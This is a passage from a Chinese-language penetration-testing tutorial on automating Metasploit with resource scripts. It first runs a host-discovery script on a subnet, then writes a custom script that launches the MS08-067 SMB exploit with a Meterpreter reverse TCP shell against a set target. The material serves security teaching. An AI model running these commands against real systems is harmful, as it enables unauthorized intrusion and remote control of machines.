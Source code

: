 ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/7a93f94e-349d-4db7-8a4e-c8c15d21aa23.png)

1.  一些脚本需要全局设置`RHOSTS`，因此我们使用以下命令设置`RHOSTS`：

```
        set RHOSTS 172.18.0.0/24 
```

前面命令的输出如下截图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/fb6463b9-936d-429a-8bad-06e8dbb4f965.png)

1.  现在我们使用以下命令运行脚本：

```
        resource /usr/share/metasploit-framework
        /scripts/resource/basic_discovery.rc
```

1.  此脚本将在提供的子网上进行基本主机发现扫描：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/c1249d0f-a3d2-474f-bf38-51672ab1938a.png)

# 编写自定义资源脚本

在下一个示例中，我们将看看如何编写一个基本脚本。

# 如何做…

按照以下步骤编写基本脚本：

1.  我们打开任何编辑器—`nano`，`leafpad`等等。

1.  在这里，我们输入所有我们希望 MSF 执行的命令：

```
     use exploit/windows/smb/ms08_067_netapi
     set payload windows/meterpreter/reverse_tcp
     set RHOST 192.168.15.15
     set LHOST 192.168.15.20
     set LPORT 4444
     exploit -j
```

1.  我们将脚本保存为`.rc`扩展名：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/e727ff55-006e-444e-b02a-0593fef1e1d6.png)

1.  现在我们启动`msfconsole`并输入命令自动利用机器：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-eth-hkr-cc/img/af6731d6-1700-4a87-bb00-b9390cc6effd.png)

资源脚本只是自动化 Metasploit 的一种方式；您可以在[`community.rapid7.com/community/metasploit/blog/2011/12/08/six-ways-to-automate-metasploit`](https://community.rapid7.com/community/metasploit/blog/2011/12/08/six-ways-to-automate-metasploit)中了解其他自动化 Metasploit 的方式。
